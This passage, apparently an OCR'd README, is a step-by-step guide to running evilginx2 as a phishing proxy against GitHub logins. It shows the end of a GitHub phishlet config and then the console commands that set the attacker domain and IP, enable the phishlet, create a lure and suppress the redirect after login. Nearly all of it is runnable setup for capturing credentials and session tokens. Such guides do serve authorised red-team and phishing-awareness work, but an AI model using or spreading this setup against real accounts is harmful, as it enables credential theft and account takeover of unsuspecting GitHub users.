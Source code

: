 ```
    type: 'post'

login:
  domain: 'github.com'
  path: '/login'
```

## Running evilginx2
1. Run: ```  sudo ./bin/evilginx -p phishlets ``` to start up evilginx2. 
2. In the evilginx2 console run the following commands for the initial configuration:
```
config domain your.domain
config ip <your public ip for the EC2 instance>
```
3. Now setup the phishlet. Link it up to the hostname you want to use and enable it! 
```
phishlets hostname github your.domain
phishlets enable github
```
Your output should resemble the following:
![Alt text](image-14.png)
Trying to use newer domains might not work right away. You might have to wait up to 72 hours in order for the A records to populate across DNS. It usually shouldn't take that long, but have some patience if you've followed all of the steps and things still don't seem to  be working.
![Alt text](image-11.png)
4. Create the lure. Run: ``` lures create github ``` You will get an id number for the lure. It usually starts at 0 by default. 


5. To ensure there is no redirect url on a successful authenticationa attempt run: ``` lures edit <id> redirect_url "" ```
